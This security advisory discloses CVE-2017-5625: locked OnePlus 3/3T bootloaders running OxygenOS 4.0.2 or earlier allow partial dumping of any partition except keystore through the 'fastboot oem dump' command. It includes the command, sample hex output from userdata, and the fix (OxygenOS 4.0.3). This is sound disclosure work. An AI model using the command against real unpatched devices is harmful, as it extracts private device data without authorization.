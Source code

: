 ```yaml
---
layout: vuln
credit: roeeh
timeline:
    - type: 'add'
      date: '2017-03-01'
    - type: 'cve-assign'
      date: '2017-01-29'    
    - type: 'cve-request'
      date: '2017-01-25'
    - type: 'release'
      date: '2017-04-25'
    - type: 'patch'
      date: '2017-03-20'
      
cve: CVE-2017-5625
alephid: ALEPH-2017006     
date: '2017-04-25'
product:
    - OnePlus 3T
    - OnePlus 3
title: 'OnePlus 3/3T Unauthorized Flash Dumping via fastboot'
severity: moderate
summary: A physical attacker, PC malware / malicious charger having ADB or fastboot access to the device can cause a locked bootloader to partially dump the content of an arbitrary partition (except `keystore`) by issuing the `fastboot oem dump <partition>` fastboot command.
vulnerable:
    - 'OxygenOS 4.0.2 and earlier'
mitigation: 'Install OxygenOS 4.0.3 or later'
---
```

The bootloader's fastboot interface must not allow any security-sensitive operation to be run unless the bootloader is unlocked. However, in the affected OnePlus devices and OxygenOS versions, one could partially dump the content of any partition (except keystore):

```terminal
> fastboot oem dump userdata
[...]
(bootloader) Dump partition: userdata
(bootloader) C0C7A7D7DFE7BA0214A21F3366313AF2DA7B36AEF27B5C40694D9534B2D
(bootloader) 3B19C068DEED8C7D333037AB6B770494DD054076171B1D33555C7EEC3FB
(bootloader) E793F5692B86E95D4D697FA98966D82E256103641605149439404A89309
(bootloader) 9EFFB47DFC976857BDE7D388A0DC45B84A97CCD7A0F9CD592EE50D6D6EE
(bootloader) 239E3D9829DFC8627A0F19D8D73FE258A7B576C31DACBAB0EB8B5D01679
(bootloader) B78A8C51D338385A853E4E2A3DBA2A873FC707BEE052F56168050964B94
[...]
```
And indeed the data is correct:
```terminal
OnePlus3:/dev/block/bootdevice/by-name # head userdata | od -tx
0000000 c0c7a7d7 dfe7ba02 14a21f33 66313af2
0000020 da7b36ae f27b5c40 694d9534 b2d361fa
0000040 2cd4f050 79e5e97c 55be1782 b34fbfef
0000060 1edc578b b8cdaf6d 24dfaf1b d7461400
0000100 3b19c068 deed8c7d 333037ab 6b770494
0000120 dd054076 171b1d33 0555c7ee c3fb029b
0000140 4f92d8a2 2af74432 e07bf276 42e3639e
0000160 d5979e35 7cd4adcb ed181221 09a484d1
```
One may argue that this is not an issue because userdata is encrypted, however please note that:
1. Google has recently patched a vulnerability with a similar impact in Pixel ([CVE-2016-8462](https://securityresear.ch/2017/01/04/fastboot-oem-sha1sum/)). It was rated with 'High' severity. 
2. Other vulnerabilies (if found) can be used in order to leak the [AES master key](https://android.googlesource.com/platform/system/vold/+/android-7.1.1_r38/cryptfs.c) from memory.